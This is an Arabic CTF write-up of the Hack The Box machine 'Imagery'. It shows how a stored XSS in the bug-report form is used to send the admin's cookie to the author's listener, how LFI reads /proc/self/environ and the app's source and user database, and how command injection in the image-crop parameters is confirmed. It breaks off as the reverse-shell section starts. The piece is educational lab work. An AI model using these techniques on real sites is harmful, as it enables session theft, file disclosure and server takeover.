## المقدمة
بسم الله الرحمن الرحيم. في هذا التحدي راح نواجه موقع ويب على مدخل 8000، بعد مانسوي حساب يمدينا نرفع صور على الموقع، يمدينا كمان نعدل على الصور، لكن نحتاج حساب اختبار. نلاحظ أن عندنا صفحة ابلاغ عن الثغرات، يمدينا من خلالها نرفع بلاغ لمسؤول الموقع. من خلال هذه الخاصية يمدينا نستغل ثغرة XSS ونحصل على الكوكيز الخاصة بالمسؤول. بعد القليل من البحث نحصل ثغرة ثانية وهي LFI يمدينا من خلالها نشيك على السورس كود حق الموقع ونكتشف معلومات الدخول الخاصة بمستخدم الاختبار ونكتشف ثغرة ثانية في خاصية التعديل على الصور. الثغرة هي command injection اللي من خلالها يمدينا نفتح اتصال عكسي مع السيرفر 

## الاستطلاع
نبدأ بالتحقق من امكانية تواصلنا مع السيرفر:

```shell
 ~/htb/ctf/imagery ·····················································································  05:16:12 PM
╰─❯ ping -c 4 imagery.htb   

PING imagery.htb (10.129.98.106) 56(84) bytes of data.
64 bytes from imagery.htb (10.129.98.106): icmp_seq=1 ttl=63 time=353 ms
64 bytes from imagery.htb (10.129.98.106): icmp_seq=2 ttl=63 time=354 ms
64 bytes from imagery.htb (10.129.98.106): icmp_seq=3 ttl=63 time=344 ms
64 bytes from imagery.htb (10.129.98.106): icmp_seq=4 ttl=63 time=342 ms

--- imagery.htb ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 341.653/347.961/353.736/5.338 ms
```
عندنا ال ttl 63 يعني أننا غالبًا نتعامل مع نظام لينكس، خلينا نفحص المداخل:

```shell
 ~/htb/ctf/imagery ·····················································································  05:16:12 PM
╰─❯ sudo nmap -sS -sV -sC imagery.htb  -v

Nmap scan report for imagery.htb (10.129.98.106)
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

عندنا مدخلين:

- 22 > SSH
- 8000 > HTTP

برسل طلب للموقع باستعمال curl واشوف ال headers:

```shell
 ~/htb/ctf/imagery ················································································································································································································  3s  05:30:29 PM
╰─❯ curl -I http://imagery.htb:8000                                                                                                                                                                                                            
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Fri, 23 Jan 2026 14:44:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 146960
Connection: close
```

عندنا سيرفر بايثون، هذا يخلينا نستبعد بعض الاحتمالات في المستقبل. بعد البحث عن اصدار werkzeug ماحصلت ثغرة, خلينا نبدأ نفحص الموقع

## موقع الويب

عندنا صفحة تسجيل الدخول وصفحة تسجيل حساب جديد والصفحة الرئيسية، بسوي حساب وأشوف الداش بورد



على طول لاحظت حاجة غريبة وهي أن ال URL مو قاعد يتغير. أعتقد أن نظام الموقع single page وهي صفحة وحدة تتغير بشكل ديناميكي كل ما تضغط أحد الأزرار. وهذا يعني أن السورس كود حق الصفحة راح يفيدنا بشكل أكبر. خلي السورس كود على جنب وخلينا نشوف خصائص الموقع الثانية. عندنا خاصية رفع الملفات:

ممكن أول ثغرة تجي في بالك هي arbitrary file upload وماراح تكون غلطان، لكن حنا قاعدين نتعامل مع سيرفر بايثون، وبالتحديد flask؛ وفلاسك بشكل افتراضي ماينفذ الأسطر البرمجية داخل ملفات بايثون, لذلك راح نستبعد الثغرة هذي عشان ما أطول المقال (أنا جربت أرفع ملفات بايثون لكن حدث المتوقع وماتنفذت). خلينا نرفع صورة عادية ونشوف إيش يصير:

نلاحظ أن علامات <> يفلترها السيرفر، يعني XSS و HTML injection خارج نطاق البحث (عشان ما أطول في المقالة ماراح أحاول أتخطى الحماية الموجودة لأن هذا مو مسار التحدي). لو ضغطنا على الزر أبو ثلاث نقاط أعلى يمين الصورة راح تطلع لنا خصائص زيادة:

الخصائص الموجودة هي التحميل والحذف وتحويل الصيغة والأهم هو تعديل أبعاد الصورة؛ المشكلة أن الخصائص هذه تحتاج صلاحيات مستخدم الاختبار (testuser) وأنا ماعندي هذه الصلاحيات. في هذه الحالة ممكن يجي في بالك تعدل على الكوكيز الخاصة بالجلسة، لكن فلاسك مايسمح لك تعدل عليها إلا إذا كان عند المفتاح السري، هذا محتوى الكوكي اللي عندنا:
```json
{
    "displayId": "028fb7a2",
    "isAdmin": false,
    "is_impersonating_testuser": false,
    "is_testuser_account": false,
    "username": "aa@aa.aa"
}
```
لو أكملنا البحث في الموقع، في آخر الصفحة نلاحظ عندنا زر Report Bug واللي يوجهنا على فورم من خلاله يمدينا نرفع بلاغ للآدمن، جا وقت نشيك على السورس كود.

###  تحليل السورس كود الخاص بالصفحة
قبل شوية جربنا نرفع صورة وعنوان الصورة كان وسم HTML لكن لاحظنا أن <> تمت فلترتها، لو نشيك على السورس كود من السطر 1309 إلى 1314 نحصل السبب:

```javascript
<div class="p-4">
<h3 class="text-xl font-semibold text-gray-800 mb-2">${DOMPurify.sanitize(image.title)}</h3>
<p class="text-gray-600 text-sm">${DOMPurify.sanitize(image.description || '')}</p>
<p class="text-gray-500 text-xs mt-2">Uploaded by: ${DOMPurify.sanitize(image.uploadedByDisplayId)}</p>
<p class="text-gray-500 text-xs">On: ${new Date(image.timestamp).toLocaleDateString()}</p>
</div>
```
استعمال المطور لدالة DOMPurify هو اللي يخلي محاولاتنا في استغلال هذه الثغرات غير مجدية، باقي لنا الفورم حق رفع البلاغات للآدمن:

عشان تسهل على نفسك البحث يمديك تستعمل CTRL+F وتبحث عن كلمة "bug" وراح تحصل أحد الدوال بعنوان loadBugReports() ؛ من السطر رقم 2353 إلى 2366 نشوف المحتوى اللي يظهر عند الآدمن:

```javascript
reportCard.innerHTML = `
<div>
<p class="text-sm text-gray-500 mb-2">Report ID: ${DOMPurify.sanitize(report.id)}</p>
<p class="text-sm text-gray-500 mb-2">Submitted by: ${DOMPurify.sanitize(report.reporter)} (ID: ${DOMPurify.sanitize(report.reporterDisplayId)}) on ${new Date(report.timestamp).toLocaleString()}</p>
<h3 class="text-xl font-semibold text-gray-800 mb-3">Bug Name: ${DOMPurify.sanitize(report.name)}</h3>
<h3 class="text-xl font-semibold text-gray-800 mb-3">Bug Details:</h3>
<div class="bg-gray-100 p-4 rounded-lg overflow-auto max-h-48 text-gray-700 break-words">
${report.details}
</div>
</div>
<button onclick="showDeleteBugReportConfirmation('${DOMPurify.sanitize(report.id)}')" class="bg-red-500 hover:bg-red-600 text-white font-bold py-2 px-4 rounded-lg shadow-md transition duration-200 ml-4">
Delete
</button>
`;
```

المطور استعمل دالة DOMPurify في المعرف واسم المبلغ وعنوان البلاغ لكن نسي يستعملها في محتوى البلاغ نفسه، فأنت لو تجرب `<script>alert(00)</script>` في اسم البلاغ ماراح يصير شي، لكن لو جربتها في محتوى البلاغ راح يتنفذ كود javascript والمفترض يمدينا ناخذ الكوكيز حقت الآدمن لأن ماعليها http_only atribute:


### استغلال XSS

الآن اللي نحتاج نسويه، نفتح سيرفر عشان نستقبل الكوكي و نرسل بلاغ داخله حمولة XSS ترسل لنا الكوكي:

```shell
······························································································································································································································································································  42s  12:26:27 PM
╰─❯ python -m http.server 9955
Serving HTTP on 0.0.0.0 port 9955 (http://0.0.0.0:9955/) ...
```
والحمولة اللي باستعملها هي 
```html
:<$PORT>/?'+document.cookie;document.body.appendChild(s)">
```

ويجينا الطلب على السيرفر حقنا:
```shell
···········································································································································  42s  12:26:27 PM
╰─❯ python -m http.server 9955
Serving HTTP on 0.0.0.0 port 9955 (http://0.0.0.0:9955/) ...
10.129.242.164 - - [24/Jan/2026 13:55:13] "GET /?session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aXSlwA HTTP/1.1" 200 -
```
يمدينا الآن ندخل على حساب الآدمن


### استغلال LFI

لو رجعنا رفعنا صورة نشوف أن لازال غير ممكن نعدل عليها، نحتاج حساب اختبار. في صفحة الآدمن يمدينا نحمل اللوقز تبع مستخدم معين، خلينا نحمل واحد منهم ونراقب حركة الشبكة:


احنا نرسل طلب للنقطة `admin/get_system_log/` مع البارامتر `log_identifier?` والواضح أن هدف هذي النقطة هو سحب ملفات من السيرفر، خلينا نجرب نغير اسم الملف في burpsuite:


### تحليل السورس كود الخاص بالموقع

لو شيكنا على ملف `proc/self/environ/` راح تطلع لنا المتغيرات البيئية، ممكن تطلع لنا كم معلومة مفيدة:

```shell
LANG=en_US.UTF-8PATH=/home/web/web/env/bin:/sbin:/usr/binUSER=webLOGNAME=webHOME=/home/webSHELL=/bin/bashINVOCATION_ID=7e8b37596ea4411aaef279ee4aa38952JOURNAL_STREAM=9:18491SYSTEMD_EXEC_PID=1408MEMORY_PRESSURE_WATCH=/sys/fs/cgroup/system.slice/flaskapp.service/memory.pressureMEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=CRON_BYPASS_TOKEN=K7Zg9vB$24NmW!q8xR0p/runL!
```

عندنا متغير `PATH=/home/web/web/env/bin` يشير إلى أن عندنا مستخدم باسم web وداخل المجلد حقه في مجلد ثاني اسمه web وغالبًا بيكون السورس كود داخله. يمديني ارسل `home/web/web/app.py/` أو الطريقة الأسهل هي اني استعمل ملف `proc/self/cwd` اللي راح يوجه على المجلد اللي يحتوي على العملية الحالية فراح ارسل `proc/self/cwd/app.py`:


من سطر 21 إلى 26 عندنا اسماء ملفات قاعد يستدعي منها دوال، خلينا نشيك على `config.py`:

```python
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'
...
FORBIDDEN_EXTENSIONS = {'php', 'php3', 'php4', 'php5', 'phtml', 'exe', 'sh', 'bat', 'cmd', 'js', 'jsp', 'asp', 'aspx', 'cgi', 'pl', 'py', 'rb', 'dll', 'vbs', 'vbe', 'jse', 'wsf', 'wsh', 'psc1', 'ps1', 'jar', 'com', 'svg', 'xml', 'html', 'htm'}
...
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
...
```
عندنا ملف `db.json` لازم نشيك عليه. عندنا صيغ الملفات المحظورة وعندنا المداخل المحظور يشبك عليها السيرفر، يعني إذا بفتح اتصال عكسي لازم أخلي السيرفر يشبك على مداخل غير الموجودة في `OUTBOUND_BLOCKED_PORTS`
```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "redacted",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "redacted",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ],
    "bug_reports": []
}
```
عندنا معلومات المستخدم testuser يمدينا ندخل على حسابه (بعد مانكسر الهاش) ونشوف إذا يمدينا نغير على الصور


### استغلال command injection

بما أن يمدينا نشوف السورس كود حق الموقع، خلينا نشوف إيش يصير إذا عدلنا على أبعاد الصور transform من ملف api_edit.py:

```python
import subprocess
...

@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    ...
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
        ...
```
المهم عندنا هي خاصية القص، في البداية السيرفر يسجل البارامترز حقتنا بعدين يضعها في أمر نظام وبعدين ينفذ الأمر باستعمال `subprocess`، خلينا نشوف الطلب حقنا إذا عدلنا على الصورة:

يمدينا نحقن الأمر حقنا في أي خانة من الطول أو العرض أو أحد المحورين، بغير على `y` وبجرب أمر `sleep 5` وأشوف وقت الرد من السيرفر:

بالفعل الرد من السيرفر جاء بعد خمس ثواني، هذا يعني استغلال ناجح لثغرة command injection.

## الاتصال العكسي والحركة السلمية
بعد ماقدرنا ننفذ أوامر على النظام، جاء وقت الاتصال العكسي، لاتنسى المداخل الممنوعة
